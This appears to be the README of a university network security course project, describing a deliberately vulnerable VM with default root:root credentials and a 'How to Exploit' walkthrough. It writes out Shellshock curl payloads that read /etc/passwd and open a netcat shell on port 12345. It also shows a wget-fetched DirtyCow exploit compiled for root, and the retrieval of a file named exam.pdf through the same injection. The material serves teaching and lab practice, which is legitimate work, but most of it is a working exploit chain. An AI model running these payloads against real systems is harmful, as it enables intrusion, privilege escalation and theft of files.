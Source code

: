 # Network Security 2016 Project


### VM

Can be downloaded here: https://drive.google.com/open?id=0B5aLHLFCodGDTFBLRkQyWlJMNDg

**Important:** Check that bridged networking is enabled (Settings > Network > Adapter 1 > Attached to: Bridged Adapter)

Then you can access the webserver running on the VM from your host system.

To get the IP of the VM, start it, login and run the command 'ip addr show eth0'.

**Users:** 

* root:root
* netsec:netsec

**To Update:**

* login as user 'netsec'
* cd netsec-project
* git pull
* sudo ./setup.sh

**Website:** &#60;IP-of-VM&#62;/cgi-bin/index.cgi


**If you want to restore /usr/bin/passwd:**

* sudo cp /opt/passwd.bkp /usr/bin/passwd


### How to Exploit

Shellshock:
```
curl -H "User-Agent: () { :; }; echo \"Content-type: text/plain\"; echo \"\"; echo \"\"; /bin/cat /etc/passwd" 192.168.1.110/cgi-bin/index.cgi
```

Reverse Shell:
```
curl -H "User-Agent: () { :; }; /bin/netcat -e /bin/bash -l -p 12345" 192.168.1.110/cgi-bin/index.cgi
```

Connect to Reverse Shell:
```
netcat 192.168.1.110 12345
```

Information Gathering:
```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

DirtyCow root privilege escalation:
```
cd /tmp
wget <url>/c0w.c --no-check-certificate
gcc -pthread c0w.c -o c0w
./c0w

(Wait...)

/usr/bin/passwd
id
uid=0(root) gid=0(root) groups=0(root)
```

Get Network Security exam:
```
find / -name "exam.pdf"

cp /home/netsec/exam.pdf /tmp/exam.pdf

exit

curl -H "User-Agent: () { :; }; echo \"Content-Type: application/pdf\"; echo \"\"; echo \"\"; /bin/cat /tmp/exam.pdf" 192.168.1.110/cgi-bin/index.cgi > exam.pdf
```
